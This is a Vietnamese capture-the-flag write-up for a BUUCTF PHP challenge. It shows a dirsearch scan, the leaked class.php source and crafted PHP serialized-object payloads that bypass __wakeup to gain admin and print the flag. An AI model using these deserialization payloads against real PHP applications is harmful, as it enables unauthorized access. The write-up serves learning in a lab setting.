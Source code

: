 # [极客大挑战 2019]PHP

[Link](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]PHP)

Đầu tiên, khi mình boot instance và truy cập vào challenge, mình cảm thấy rất bất ngờ với giao diện của trang web. Mình nghĩ rằng author rất giỏi với giao diện thú vị và vui nhộn như thế.
![1](https://user-images.githubusercontent.com/95614411/173055220-97ee6bb8-4e31-43d2-bb53-170f542d6917.PNG)

Vì author đã gợi ý là họ thường xuyên sao lưu dữ liệu trang web, nhưng vì mình không tìm được manh mối nào khi đọc source HTML, nên mình quyết định dùng Dirsearch để tìm.

`python3 dirsearch.py -u http://089e324c-b9d5-4267-a1b6-5a5e6c644bdf.node4.buuoj.cn:81/ -e php`

Và mình phát hiện ra được một link thú vị, có thể down về source code của web.

![2](https://user-images.githubusercontent.com/95614411/173055306-2f4b161c-b5c0-40cb-9f2c-c816f5e6cc13.PNG)

![3](https://user-images.githubusercontent.com/95614411/173055353-f97a15fe-66ad-42f5-a8c4-4d1105c84a4d.PNG)


ở file class.php:
```
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

điều đầu tiên mình đập vào mắt mình là: 


![image](https://user-images.githubusercontent.com/95614411/173054943-b8052b7b-d389-4068-97a6-79a2ea9686bb.png)

Ở đây, mình xác nhận được, để nhận được flag thì mình phải đăng nhập vào được quyền admin với:
> Username: admin
> 
> Password: 100

Và bây giờ, mình đối mặt với 2 vấn đề: 
- Làm sao để đưa lên server username và password?
- làm sao để đưa vào khi username, password đều nằm trong 1 class?

Mình tiếp tục mở file index.php lên và thấy:

![image](https://user-images.githubusercontent.com/95614411/173056586-1a476fa6-46bc-4c6a-b0c3-0b1fbf2ad4b9.png)

Vậy là mình có thể đưa vào với query string `?select=`

Kế tiếp, mình nhớ là đã xem trên kênh Cyber Jutsu về ý tưởng đưa một ojbect qua query string, nhưng và mình phải tìm cách vượt qua function __wakeup() 

![image](https://user-images.githubusercontent.com/95614411/173057145-80e07ba6-e84e-4554-92ce-41ba85f27968.png)

Mình đã biến tấu một chút ở code và dùng hàm `serialize()` để xem mã hóa của code khi mình tạo một object như bên dưới:

![image](https://user-images.githubusercontent.com/95614411/173057544-d4b9face-7546-4dea-8510-82ac60d0e8aa.png)

Và khi chạy trên localhost thì mình được:

![image](https://user-images.githubusercontent.com/95614411/173057621-60728caf-572a-4881-8841-240793d9a3ba.png)


Payload ban đầu của mình: 
`?select="O:4:"Name":2:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}"
- ở đây, vì hai biến `username` và `password` mang thuộc tính private, nên mình dùng `%00` điền vào trước chuỗi để khi truy xuất vào được đầy đủ.
 
Và để vượt qua function `__wakeup()` thì mình đã payload một chút:

`?select="O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}"`

Và kết quả:

![image](https://user-images.githubusercontent.com/95614411/173059398-29fc5a8e-43c9-47a6-be28-35ce755c04a5.png)







